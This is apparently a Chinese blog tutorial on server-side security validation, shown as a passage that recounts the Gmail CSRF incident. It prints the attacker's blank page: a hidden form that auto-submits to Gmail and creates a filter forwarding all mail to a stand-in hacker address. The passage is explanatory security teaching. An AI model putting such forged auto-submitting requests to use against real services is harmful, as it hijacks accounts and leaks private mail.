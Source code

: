 ```yaml
---
title: 服务器安全校验
date: 2021-05-11 21:37:08 
tags: CSRF、XSS、安全校验
---
```

## 前言介绍 

服务器如果对所有请求内容一并接收的话，很容易带来很多安全风险问题，比如`CSRF`攻击、`XSS`攻击。所以，服务端的安全校验尤为重要，
不仅保障了服务的稳定性，也保证了用户的利益不受侵犯。

## 常见漏洞 

### CSRF攻击（Cross site request forgery跨站请求伪造） 

`CSRF`攻击实例 - gmail邮箱的`CSRF`漏洞
这一天，大卫同学百无聊赖地刷着Gmail邮件。大部分都是没营养的通知、验证码、聊天记录之类。但有一封邮件引起了大卫的注意：

    甩卖比特币，一个只要998！！

聪明的大卫当然知道这种肯定是骗子，但还是抱着好奇的态度点了进去（请勿模仿）。

果然，这只是一个什么都没有的空白页面，大卫失望的关闭了页面。一切似乎什么都没有发生……

在这平静的外表之下，黑客的攻击已然得手。大卫的Gmail中，被偷偷设置了一个过滤规则，这个规则使得所有的邮件都会被自动转发到`hacker@hackermail.com`。

大卫还在继续刷着邮件，殊不知他的邮件正在一封封地，如脱缰的野马一般地，持续不断地向着黑客的邮箱转发而去。

不久之后的一天，大卫发现自己的域名已经被转让了。懵懂的大卫以为是域名到期自己忘了续费，直到有一天，对方开出了 $650 的赎回价码，大卫才开始觉得不太对劲。

大卫仔细查了下域名的转让，对方是拥有自己的验证码的，而域名的验证码只存在于自己的邮箱里面。大卫回想起那天奇怪的链接，打开后重新查看了“空白页”的源码：

```html
<form method="POST" action="https://mail.google.com/mail/h/ewt1jmuj4ddv/?v=prf" enctype="multipart/form-data">
       <input type="hidden" name="cf2_emc" value="true"/>
       <input type="hidden" name="cf2_email" value="hacker@hakermail.com"/>
      .....
       <input type="hidden" name="irf" value="on"/>
       <input type="hidden" name="nvp_bu_cftb" value="Create Filter"/>
</form>
<script>
    document.forms[0].submit();
</script>
```

    这个页面只要打开，就会向Gmail发送一个`post`请求。请求中，执行了“`Create Filter`”命令，将所有的邮件，转发	
    到“`hacker@hackermail.com`”。

大卫由于刚刚就登陆了Gmail，所以这个请求发送时，携带着大卫的登录凭证（`Cookie`），

Gmail的后台接收到请求，验证了确实有大卫的登录凭证，于是成功给大卫配置了过滤器。

黑客可以查看大卫的所有邮件，包括邮件里的域名验证码等隐私信息。拿到验证码之后，黑客就可以要求域名服务商把域名重置给自己。
